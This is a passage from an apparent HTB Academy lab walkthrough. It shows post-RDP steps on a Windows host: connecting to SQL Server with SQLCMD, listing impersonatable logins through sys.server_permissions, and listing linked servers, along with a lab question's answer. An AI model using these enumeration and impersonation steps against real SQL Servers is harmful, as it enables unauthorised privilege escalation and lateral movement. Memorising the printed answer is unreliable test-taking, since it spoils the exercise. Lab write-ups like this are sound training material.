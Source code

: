**Success**: RDP session established as user `fiona`

### SQL Server Connection via Windows Authentication
```powershell
# HTB Academy SQL Server connection using Windows Authentication
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Fiona> SQLCMD.EXE -S WIN-HARD
1>
```

**Access**: SQLCMD connection established to local SQL Server instance

---

## 👤 Phase 5: SQL Server User Impersonation Discovery

### Impersonation Privilege Enumeration
```sql
-- HTB Academy SQL Server impersonation privilege discovery
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
GO

name
-------------
john
simon

(2 rows affected)
```

**Discovery**: Users `john` and `simon` can be impersonated ✅ (Question 3 answer: john)

---

## 🔗 Phase 6: Linked Server Discovery & Exploitation

### Linked Server Enumeration
```sql
-- HTB Academy linked server discovery
SELECT srvname, isremote FROM sysservers
GO

srvname                           isremote
--------------------------------- --------
WINSRV02\SQLEXPRESS                1
LOCAL.TEST.LINKED.SRV              0

(2 rows affected)
```
